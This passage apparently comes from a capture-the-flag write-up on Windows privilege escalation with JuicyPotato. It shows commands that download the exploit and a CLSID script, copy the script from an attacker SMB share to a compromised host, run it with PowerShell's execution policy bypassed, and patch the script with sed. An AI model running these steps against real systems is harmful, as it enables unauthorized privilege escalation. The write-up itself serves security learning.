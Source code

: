 {% highlight none linenos %}
kali@kali:/tmp/x$ wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -O ./myShare/jp.exe
[...]
2021-11-20 14:07:08 (22.2 MB/s) - ‘./myShare/jp.exe’ saved [347648/347648]

kali@kali:/tmp/x$ wget https://raw.githubusercontent.com/ohpe/juicy-potato/master/CLSID/GetCLSID.ps1 -O ./myShare/GetCLSID.ps1
[...]
2021-11-20 14:07:39 (25.2 MB/s) - ‘./myShare/GetCLSID.ps1’ saved [1580/1580]

kali@kali:/tmp/x$ 
{% endhighlight %}

Next, we try to execute the `GetCLSID.ps1` script using Powershell to obtain a list of CLSID:s. As shown below, we do this by first setting the current directory to the `C:\Windows\temp` directory since we need a directory where we have write access. We then copy the script to the target from the SMB share using the command `copy \\10.10.14.3\myShare\GetCLSID.ps1 .`. Then, we execute the script with Powershell by executing `powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1`. However, when executing the command, we get an error message. This error message tells us that the `ogv` cmdlet can not be found.

{% highlight none linenos %}
c:\windows\system32\inetsrv>cd C:\Windows\temp
cd C:\Windows\temp

C:\Windows\Temp>copy \\10.10.14.3\myShare\GetCLSID.ps1 .
copy \\10.10.14.3\myShare\GetCLSID.ps1 .
        1 file(s) copied.

C:\Windows\Temp>powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1
powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1
[...]
ogv : To use the Out-GridView, install Windows PowerShell ISE by using Server 
Manager, and then restart this application. (Could not load file or assembly 
'Microsoft.PowerShell.GraphicalHost, Version=3.0.0.0, Culture=neutral, 
PublicKeyToken=31bf3856ad364e35' or one of its dependencies. The system cannot 
find the file specified.)
At C:\Windows\Temp\GetCLSID.ps1:58 char:11
+ $RESULT | ogv
+           ~~~
    + CategoryInfo          : ObjectNotFound: (Microsoft.Power...1bf3856ad364e 
   35:AssemblyName) [Out-GridView], NotSupportedException
    + FullyQualifiedErrorId : ErrorLoadingAssembly,Microsoft.PowerShell.Comman 
   ds.OutGridViewCommand
{% endhighlight %}

By studying the script, it is possible to notice that the only line which uses the `ogv` cmdlet is the last line. The `ogv` cmdlet is simply used to make the output of the script easier to read. As such, we can remove this cmdlet using `sed` or manually with a text editor. The former can be performed by executing `sed -i "s/$RESULT | ogv/$RESULT/" ./myShare/GetCLSID.ps1` as demonstrated below.

![patch](/assets/{{ imgDir }}/patch.png)
